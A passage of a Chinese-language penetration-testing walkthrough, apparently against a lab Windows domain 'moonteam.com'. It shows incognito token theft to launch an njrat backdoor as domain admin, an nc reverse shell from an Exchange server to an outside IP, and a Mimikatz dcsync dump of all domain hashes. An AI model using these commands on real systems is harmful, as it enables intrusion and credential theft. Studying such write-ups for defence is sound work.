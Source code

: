 ![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPO7v3cXSttEXfswWkPrzBQ6NJXGgahrO6Bq7Ruruh9IopwTTWZN1wpYA/640?wx_fmt=png)

DNS

主 10.10.10.2.128

备 10.10.10.2131

域 moonteam.com

使用 mimikta 读不出明文。

**5.17 incognito 窃取令牌域管理权限**

当前的权限是 system 限制太多了。导致一些域命令不能使用。

当前的环境又不是交互环境。首先窃取域管令牌再用 njrat 后门上线。

```
incognito.exe list_tokens -u
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOiaNhTRnJRia9s6O5iapUpIcRkAQa7yiaVBQhHOjsb97w394ic48OicGwIK7A/640?wx_fmt=png)  

存在域管管理员执行后门上线。

```
incognito.exe execute -c "moonteam\administrator" c:\666.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOCelYpYySevmoHhiaBPbibHBePrjTaUj0ic9kUFaavUDcl7EtdSjgKRLmQ/640?wx_fmt=png)

**5.18 NC 反弹交互 CNDSHEL**

本地服务监听

```
nc -lvnp 9999
```

Exchange 上执行  

```
c:\nc.exe-e cmd.exe 61.100.100.129 9999
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOibED8nqjmzpnGXiaD9VdDIwTHdj1BjGEy5knAkLdh08rWDrxCQNquh1g/640?wx_fmt=png)

**5.19 Mimikatz dcsync 导出域控用户所有 hash**

```
privilege::debug
lsadump::dcsync/domain:moonteam.com /all /csv
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOyGMUeqwsmo0ppia7ZRnw1icdBtuC03VyaJgLCYUbS28EYBZCqye0uGVQ/640?wx_fmt=png)  

**5.20 查看当前 FSMO 主机角色信息**

netdomquery fsmo
